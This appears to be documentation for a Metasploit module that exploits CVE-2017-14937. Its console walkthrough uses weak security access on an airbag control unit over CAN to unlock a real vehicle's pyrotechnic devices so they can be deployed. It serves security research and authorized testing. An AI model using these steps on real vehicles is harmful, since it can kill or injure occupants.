 Acting in the role of a Pyrotechnical Device Deployment Tool (PDT), this module will first query all Pyrotechnic Control Units (PCUs) in the target vehicle to discover how many pyrotechnic devices are present, then attempt to validate the security access token using the default simplified algorithm.  On success, the vehicle will be in a state that is prepped to deploy its pyrotechnic devices (e.g. airbags, battery clamps, etc.) via the service routine. (ISO 26021)

This module is based on research by Johannes Braun and Juergen Duerrwang, which you can read more about [here](https://www.researchgate.net/publication/321183727_Security_Evaluation_of_an_Airbag-ECU_by_Reusing_Threat_Modeling_Artefacts) along with related [CVE-2017-14937](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-14937).

## Options

  **SRCID**

  This is the SRC CAN ID for the PCU connection.  Default is 0x7F1.

  **DSTID**

  This is the CAN ID of the expected response.  Default is 0x7F9.

  **CANBUS**

  Determines which CAN bus to communicate on.  Type 'supported_buses' for valid options.

  **PADDING**

  Optional byte-value to use for padding all CAN bus packets to an 8-byte length.  Padding is disabled by default.

## Scenarios

  A successful unlock and prepped-to-deploy of pyrotechnic devices in a target vehicle:

```
$ ./msfconsole -q
msf > use auxiliary/server/local_hwbridge
msf auxiliary(local_hwbridge) > set uripath /
uripath => /
msf auxiliary(local_hwbridge) > run
[*] Auxiliary module running as background job 0.

[*] Using URL: http://0.0.0.0:8080/
[*] Local IP: http://10.0.2.4:8080/
[*] Server started.

msf auxiliary(local_hwbridge) > use auxiliary/client/hwbridge/connect
msf auxiliary(connect) > run

[*] Attempting to connect to 127.0.0.1...
[*] Hardware bridge interface session 1 opened (127.0.0.1 -> 127.0.0.1) at 2017-12-17 10:41:27 -0600
[+] HWBridge session established
[*] HW Specialty: {"automotive"=>true}  Capabilities: {"can"=>true, "custom_methods"=>true}
[!] NOTICE:  You are about to leave the matrix.  All actions performed on this hardware bridge
[!]          could have real world consequences.  Use this module in a controlled testing
[!]          environment and with equipment you are authorized to perform testing on.
[*] Auxiliary module execution completed

msf auxiliary(connect) > sessions -i 1
[*] Starting interaction with 1...

hwbridge >
hwbridge > run post/hardware/automotive/pdt canbus=<target CAN bus>

[*] Gathering Data...
[*]  VIN: 5555
[*] Loop info (1 pyrotechnic devices):
[*]   69 | battery clamp main battery
[*]      |  Deployment Status: Fail ()
[*]  Number of PCUs in vehicle     | 1
[*]  Info About First PCU
[*]  Address format this PCU(s)    | 11 bit normal addressing
[*]  Number of pyrotechnic charges | 1
[*]  Version of ISO26021 standard  | 1
[*]  ACL type                      | CAN only
[*]  ACL Type version              | 1
[*]
[*] Switching to Diagnostic Session 0x04...
[*] Getting Security Access Seed...
[*] Success.  Seed: ["01", "CF", "00", "00", "00"]
[*] Attempting to unlock device...
[*] Success!
[!] Warning! You are now able to start the deployment of airbags in this vehicle
[!] *** OCCUPANTS OF THE VEHICLE FACE POTENTIAL DEATH OR INJURY ***
```
